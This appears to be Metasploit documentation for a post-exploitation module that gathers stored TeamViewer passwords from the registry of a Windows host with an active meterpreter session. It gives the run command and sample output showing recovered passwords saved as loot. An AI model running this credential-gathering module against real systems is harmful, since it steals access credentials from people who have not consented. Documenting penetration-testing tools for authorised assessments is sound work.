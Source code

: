 ## Vulnerable Application

  Any Windows host with a `meterpreter` session.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/teamviewer_passwords```
  3. If the system has registry keys for TeamViewer passwords they will be printed out.

## Options

  None.

## Scenarios

```
meterpreter > run post/windows/gather/credentials/teamviewer_passwords 

[*] Finding TeamViewer Passwords on WEQSQUGO-2156
[+] Found Exported Unattended Password: P@$$w0rd
[+] Found Options Password: op*****5
[+] Passwords stored in: /home/blurbdust/.msf4/loot/20200207052401_default_***.***.***.***_host.teamviewer__588749.txt
meterpreter > 
```
